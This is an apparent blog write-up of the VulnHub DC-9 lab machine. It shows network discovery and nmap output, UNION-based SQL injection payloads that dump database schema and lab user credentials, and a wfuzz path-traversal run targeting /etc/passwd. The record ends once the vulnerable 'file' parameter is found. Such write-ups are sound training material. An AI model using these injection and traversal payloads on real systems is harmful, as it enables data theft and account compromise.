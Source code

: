 ```yaml
---
published: true
---
```

Hello All , This Is my write up for DC: 9 Machine 
Machine Link :https://www.vulnhub.com/entry/dc-9,412/


First we will Make Network Discovery to Discover Machine IP 

- ┌──(root💀Devo)-[/home/devo/vuln-machines/DC-8]
- └─# arp-scan --interface eth0 192.168.162.0/24
- Interface: eth0, type: EN10MB, MAC: 00:0c:29:7b:1a:0c, IPv4: 192.168.162.135
- Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
- 168.162.2	00:50:56:ed:94:06	VMware, Inc.
- 168.162.1	00:50:56:c0:00:08	VMware, Inc.
- **192.168.162.136	00:0c:29:6c:2b:1b	VMware, Inc.**
- 168.162.254	00:50:56:fc:2a:c4	VMware, Inc
.


Machine ip is 192.168.162.136


## Scanning:
- **> _┌──(root💀Devo)-[/home/devo/vuln-machines/DC-8]
- └─#  nmap -sV -p- -sC -A 192.168.162.136                                                                                                                              127 ⨯
- Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-21 20:56 EDT
- Nmap scan report for 192.168.162.136
- Host is up (0.00077s latency).
- Not shown: 65533 closed ports
- PORT   STATE    SERVICE VERSION
- 22/tcp filtered ssh
- 80/tcp open     http    Apache httpd 2.4.38 ((Debian))
- |http-server-header: Apache/2.4.38 (Debian)
- |http-title: Example.com - Staff Details - Welcome
- MAC Address: 00:0C:29:6C:2B:1B (VMware)
- Device type: general purpose
- Running: Linux 3.X|4.X
- OS CPE: cpe:/o:linux:linuxkernel:3 cpe:/o:linux:linuxkernel:4
- OS details: Linux 3.2 - 4.9
- Network Distance: 1 hop
- 
- TRACEROUTE
- HOP RTT     ADDRESS
- 1   0.77 ms 192.168.162.136
- 
- OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ ._
- Nmap done: 1 IP address (1 host up) scanned in 10.42 seconds**


we Found ports SSH , HTTP are open

SSH 
try to connect ssh 
┌──(root💀Devo)-[/home/devo/vuln-machines/DC-8]
└─# ssh 192.168.162.136
The authenticity of host '192.168.162.136 (192.168.162.136)' can't be established.
ECDSA key fingerprint is SHA256:o2Ii/WX152zZCRlVrfXpNnX8mvNwYfOWhkMscAr+sMs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.162.136' (ECDSA) to the list of known hosts.
root@192.168.162.136's password: 
Permission denied, please try again.
root@192.168.162.136's password: 

found we need a password )


HTTP 
we found sql injection in search page 

Tom'-- -
![img1]({{site.baseurl}}/_posts/1.png)



tring to detect columns number to run UNION query...
found that they are 6 columns   ### Tom' ORDER BY 6-- -


we will run set of queries to get informations 

search=Tom' UNION SELECT group_concat(SCHEMA_NAME),2,3,4,5,6 FROM information_schema.schemata-- -
Result: Staff

search=Tom' UNION SELECT group_concat(TABLE_NAME),2,3,4,5,6 FROM information_schema.tables where table_schema="Staff"-- -
Result = StaffDetails,Users

search=Tom' UNION SELECT group_concat(COLUMN_NAME),2,3,4,5,6 FROM information_schema.columns where table_schema="Staff"-- -
Result= ID: id,firstname,lastname,position,phone,email,reg_date,UserID,Username,Password


search=Tom' UNION SELECT group_concat(Username,":",Password),2,3,4,5,6 FROM Staff.Users-- -   
### admin:856f5de590ef37314e7c3bdf6f8a66dc  
     ### : transorbital1 


'UNION SELECT group_concat(username,":",password),2,3,4,5,6 from users.UserDetails-- -
Result=
marym:3kfs86sfd
julied:468sfdfsd2
fredf:4sfd87sfd1
barneyr:RocksOff
tomc:TC&TheBoyz
jerrym:B8m#48sd
wilmaf:Pebbles
bettyr:BamBam01
chandlerb:UrAG0D!
joeyt:Passw0rd
rachelg:yN72#dsd
rossg:ILoveRachel
monicag:3248dsds7s
phoebeb:smellycats
scoots:YR3BVxxxw87
janitor:Ilovepeepee
janitor2:Hawaii-Five-0


after we login as admin 
![2]({{site.baseurl}}/_posts/2.png)

	File does not exist
	it seems as hint to parameter called file 
	so we will fuzz it  


- └─# wfuzz  -b'PHPSESSID=7iu4vf3td19qtp16374hm8vcdv' --hw 100 -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt http://192.168.162.136/manage.php?FUZZ=../../../../../../../../../../etc/passwd
- 
- 	
- 	
- 	
- 	=====================================================================
- ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                     
- =====================================================================
- 
- 000000010:   200        93 L     172 W      3694 Ch     "file"                  
- 	
- 	
- 	-




	we found a paramater mane called file 










































